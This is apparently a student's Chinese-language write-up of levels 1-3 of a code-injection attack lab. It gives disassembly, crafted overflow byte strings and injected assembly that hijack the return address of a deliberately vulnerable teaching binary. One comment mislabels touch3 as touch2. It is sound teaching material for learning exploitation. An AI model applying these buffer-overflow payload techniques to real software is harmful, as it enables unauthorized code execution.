 # Attack Lab

## Part I: Code Injection Attacks

### Level 1
level 1 在 `test` 函式內，需要利用 `test` 內呼叫到的 `getbuf` 函式。
因為 `getbuf` 沒有作邊界檢查，可能造成 buffer overflow 的漏洞。
利用此處 buffer overflow 將 `getbuf` 的 return address 改寫成 `touch1` 函式的地址。

- test()
    ```
    (gdb) disass test
    Dump of assembler code for function test:
    0x0000000000401968 <+0>:	sub    $0x8,%rsp
    0x000000000040196c <+4>:	mov    $0x0,%eax
    0x0000000000401971 <+9>:	callq  0x4017a8 <getbuf>
    0x0000000000401976 <+14>:	mov    %eax,%edx
    0x0000000000401978 <+16>:	mov    $0x403188,%esi
    0x000000000040197d <+21>:	mov    $0x1,%edi
    0x0000000000401982 <+26>:	mov    $0x0,%eax
    0x0000000000401987 <+31>:	callq  0x400df0 <__printf_chk@plt>
    0x000000000040198c <+36>:	add    $0x8,%rsp
    0x0000000000401990 <+40>:	retq   
    End of assembler dump.
    ```

- getbuf()
    ```
    (gdb) disass getbuf
    Dump of assembler code for function getbuf:
    0x00000000004017a8 <+0>:	sub    $0x28,%rsp
    0x00000000004017ac <+4>:	mov    %rsp,%rdi
    0x00000000004017af <+7>:	callq  0x401a40 <Gets>
    0x00000000004017b4 <+12>:	mov    $0x1,%eax
    0x00000000004017b9 <+17>:	add    $0x28,%rsp
    0x00000000004017bd <+21>:	retq   
    End of assembler dump.
    ```

觀察進入 `getbuf` 時開出的 buffer 空間為 `0x28` (40byte)。
在輸入字串時在 40 byte 以後的內容以 little-endian 的順序寫入 `touch1` 的地址 (0x00000000004017c0)

- ctarget.l1.txt
    ```
    36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 c0 17 40 00 00 00 00 00
    ```

前 40Byte 為任意字串，後面加上 "c0 17 40 00 00 00 00 00" (`touch1` 的地址 - little-endian)

```
./hex2raw < ctarget.l1.txt | ./ctarget -q
```

在 `getbuf` 結束，成功跳轉到 `touch1`

### Level 2
與 level1 類似，需要讓程式執行 `touch2`，但在執行 `touch2` 之前需要將 cookie 寫入傳參 ($rdi) 才能通過。
所以我們可以注入一段程式碼，並且在 `touch2` 之前執行。

- ctargetl2.s
    ```
    pushq   $0x4017ec           # 先將 touch2 地址 push 進 stack
    mov     $0x59b997fa, %rdi   # 將 cookie 寫入 $rdi
    retq                        # return 回 $rsp 內儲存的位址 (touch2)
    ```

- 組譯後再反組譯得到 machine code
    ```
    $ gcc -c ctargetl2.s
    $ objdump -d ctargetl2.o > ctargetl2.d
    ```

- ctargetl2.d
    ```
    ctarget_l2/ctargetl2.o:     file format elf64-x86-64
    Disassembly of section .text:

    0000000000000000 <.text>:
        0:	68 ec 17 40 00       	pushq  $0x4017ec
        5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
        c:	c3                   	retq   
    ```


- ctarget.l2.txt
    ```
    68 ec 17 40 00 48 c7 c7 fa 97 b9 59 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 dc 61 55 00 00 00 00
    ```

    |    |    |    |    |    |    |    |    |
    | -- | -- | -- | -- | -- | -- | -- | -- |
    | 00 | 00 | 00 | 00 | 55 | 61 | dc | 78 | <- $rsp : 0x5561dca0
    | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
    | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
    | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
    | 00 | 00 | 00 | c3 | 59 | b9 | 97 | fa |
    | c7 | c7 | 48 | 00 | 40 | 17 | ec | 68 | <- getbuf : 0x5561dc78

    在結束 `getbuf` 後會先跳至 stack 段 (0x5561dc78) 執行注入的程式碼。先是將 `touch2` 地址 push 進 stack，再將 cookie 寫入傳參，最後 return 到 `touch2`。

### Level 3
與 level2 類似，`touch3` 傳參變為字串起始位址，但因為 `touch3` 內大量使用 stack 空間，會把 getbuf 注入的程式蓋寫，所以需要注入到 `test` 使用的 stack 區段才能躲過。

- cookie
    ```
    0x59b997fa
    ```
    ```
    35 39 62 39 39 37 66 61 00
    ```

- ctargetl3.s
    ```
    pushq   $0x4018fa           # 先將 touch2 地址 push 進 stack
    mov     $0x5561dca8, %rdi   # 將 cookie 字串的儲存位址寫入 $rdi
    retq                        # return 回 $rsp 內儲存的位址 (touch3)
    ```

- 組譯後再反組譯得到 machine code
    ```
    $ gcc -c ctargetl3.s
    $ objdump -d ctargetl3.o > ctargetl3.d
    ```

- ctargetl3.d
    ```
    ctarget_l3/ctargetl3.o:     file format elf64-x86-64
    Disassembly of section .text:
    
    0000000000000000 <.text>:
        0:	68 fa 18 40 00       	pushq  $0x4018fa
        5:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
        c:	c3                   	retq   
    ```

- ctarget.l3.txt
    ```
    68 fa 18 40 00 48 c7 c7 a8 dc 61 55 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 dc 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
    ```
    |    |    |    |    |    |    |    |    |
    | -- | -- | -- | -- | -- | -- | -- | -- |
    | -- | -- | -- | -- | -- | -- | -- | 00 |
    | 61 | 66 | 37 | 39 | 39 | 62 | 39 | 35 | <- `test` 使用的 stack 區域
    | 00 | 00 | 00 | 00 | 55 | 61 | dc | 78 | <- $rsp : 0x5561dca0
    | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
    | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
    | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
    | 00 | 00 | 00 | c3 | 55 | 61 | dc | a8 |
    | c7 | c7 | 48 | 00 | 40 | 18 | fa | 68 | <- getbuf : 0x5561dc78

